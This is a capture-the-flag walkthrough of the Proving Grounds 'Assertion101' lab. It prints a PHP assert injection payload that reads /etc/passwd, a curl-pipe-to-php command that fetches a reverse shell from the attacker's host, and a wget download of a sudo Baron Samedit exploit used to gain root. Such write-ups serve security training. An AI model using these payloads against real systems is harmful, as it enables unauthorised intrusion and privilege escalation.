 ```yaml
---
categories: [Proving Grounds Play]
tags: [LFI, PrivEsc, RCE, sudo exploit]  
image:
  path: /Vulnhub-Files/img/Assersion101/Untitled.png
  alt: Assertion 101 Machine 🖥️ 
---
```



## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Assertion101]
└─$ cat Nmap_results.txt
# Nmap 7.94 scan initiated Tue Jul 18 21:13:55 2023 as: nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.187.94
Warning: 192.168.187.94 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.187.94
Host is up (0.17s latency).
Not shown: 65466 closed tcp ports (reset), 67 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:ce:aa:cc:02:de:a5:a3:58:5d:da:2b:ef:54:07:f9 (RSA)
|   256 9d:3f:df:16:7a:e1:59:58:84:4a:e3:29:8f:44:87:8d (ECDSA)
|_  256 87:b5:6f:f8:21:81:d3:3b:43:d0:40:81:c0:e3:69:89 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Assertion
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## Web Enumeration ➡️

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%201.png)

Now while surfing I tried LFI on `page` parameter →

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%202.png)

Now lets try some other type of payloads ⤵️

[LFI via PHP`s ‘assert’](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert)

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%203.png)

payload used like This →

```bash
http://192.168.152.94/index.php?page=%27%20and%20die(show_source(%27/etc/passwd%27))%20or%20%27
```

In response I got this →

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%204.png)

Now lets use another payload for Remote Command Execution (RCE) → 

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%205.png)

Lets try reverse shell code →

```bash
http://192.168.152.94/index.php?page=' and die(system("curl http://192.168.45.152/shell.php|php")) or '
```

In response to that I got the shell →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Assertion101]
└─$ nc -lvnp 4444       
listening on [any] 4444 ...

connect to [192.168.45.152] from (UNKNOWN) [192.168.152.94] 54592
Linux assertion 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 17:41:39 up 50 min,  0 users,  load average: 0.00, 0.00, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ $ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@assertion:/$ whoami
whoami
www-data
www-data@assertion:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@assertion:/$
```

Now I checked the sudo version and then I exploited the vulnerability of **[CVE-2021-3156 (Sudo Baron Samedit)](https://github.com/worawit/CVE-2021-3156#cve-2021-3156-sudo-baron-samedit)**

```bash
www-data@assertion:/home$ sudo -V
sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
www-data@assertion:/home$ cd /tmp
cd /tmp
www-data@assertion:/tmp$ wget http://192.168.45.152/exploit_nss.py
wget http://192.168.45.152/exploit_nss.py
--2023-10-09 17:46:10--  http://192.168.45.152/exploit_nss.py
Connecting to 192.168.45.152:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8179 (8.0K) [text/x-python]
Saving to: 'exploit_nss.py'

exploit_nss.py        0%[                    ]       0  --.-KB/exploit_nss.py      100%[===================>]   7.99K  --.-KB/s    in 0.003s  

2023-10-09 17:46:11 (2.95 MB/s) - 'exploit_nss.py' saved [8179/8179]

www-data@assertion:/tmp$ 
www-data@assertion:/tmp$ chmod +x exploit_nss.py	
chmod +x exploit_nss.py 
www-data@assertion:/tmp$ ls -al
ls -al
total 16
drwxrwxrwt  2 root     root     4096 Oct  9 17:46 .
drwxr-xr-x 26 root     root     4096 Sep 14  2020 ..
-rwxrwxrwx  1 www-data www-data 8179 Jun 22 10:25 exploit_nss.py
prw-r--r--  1 www-data www-data    0 Oct  9 17:24 f
www-data@assertion:/tmp$ python3 exploit_nss.py
python3 exploit_nss.py
# /bin/bash -i
/bin/bash -i
root@assertion:/tmp# whoami
whoami
root
root@assertion:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@assertion:/tmp# cd /root
cd /root
root@assertion:/root# ls -al
ls -al
total 36
drwx------  5 root root 4096 Oct  9 16:54 .
drwxr-xr-x 26 root root 4096 Sep 14  2020 ..
lrwxrwxrwx  1 root root    9 Jan 16  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  3 root root 4096 Jan 16  2020 .cache
drwx------  3 root root 4096 Jan 16  2020 .gnupg
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Jan 16  2020 .ssh
-rw-------  1 root root    0 Sep  8  2020 .viminfo
-rw-r--r--  1 root root   33 Oct  9 16:54 proof.txt
-rw-r--r--  1 root root   32 Sep  8  2020 root.txt
root@assertion:/root# cat root.txt
cat root.txt
Your flag is in another file...
root@assertion:/root# cat proof.txt
cat proof.txt
FLAGFLAGFLAGFLAGFLAG
root@assertion:/root# cd /
root@assertion:/# find / -name local.txt 2>/dev/null
find / -name local.txt 2>/dev/null
/var/www/local.txt
root@assertion:/# cat /var/www/local.txt
cat /var/www/local.txt
FLAGFLAGFLAGFLAGFLAG
root@assertion:/# ifconfig
ifconfig
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.152.94  netmask 255.255.255.0  broadcast 192.168.152.255
        inet6 fe80::250:56ff:feba:8eed  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:ba:8e:ed  txqueuelen 1000  (Ethernet)
        RX packets 1903  bytes 201740 (201.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2063  bytes 2686114 (2.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 786  bytes 61626 (61.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 786  bytes 61626 (61.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@assertion:/#
```

I am root now I can access all the flags !!